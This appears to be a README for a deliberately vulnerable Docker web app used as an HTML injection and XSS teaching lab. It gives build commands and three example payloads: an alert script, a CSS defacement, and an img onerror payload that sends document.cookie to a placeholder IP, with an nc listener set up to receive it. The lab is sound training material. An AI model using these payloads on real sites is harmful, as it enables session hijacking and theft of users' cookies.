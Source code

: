 # HTML Injection   

A simple docker container that has a web app that is susceptible to HTML injection.

## Build
```
docker build -t html-injection .
```

## Usage
```
docker run --rm -d -p 5000:5000 --name html-injection -t html-injection
```

## Examples
### 1) Simple HTML Injection
Click the "Click to enter your name" button and insert a XSS test alert script.

```
<script>alert("XSS Test")</script>
```

### 2) Defacement of the page
You can import pictures using a script.

```
<style> body {background-image: url('https://uwe-cyber.github.io/images/uwecyber.png');}</style>
```

### 3) Stealing Cookies
Export the session cookie to a remote server.

Have a nc listener running on port 5001 on your local machine.

```
nc -lvp 5001
```

Then use the following script to export the cookie to your local machine. Note the `removeAttribute` is used to prevent the script from running more than once.

```
<img src=x onerror="this.src='http://<IP ADDRESS>:5001/?'+document.cookie; this.removeAttribute('onerror');">
```
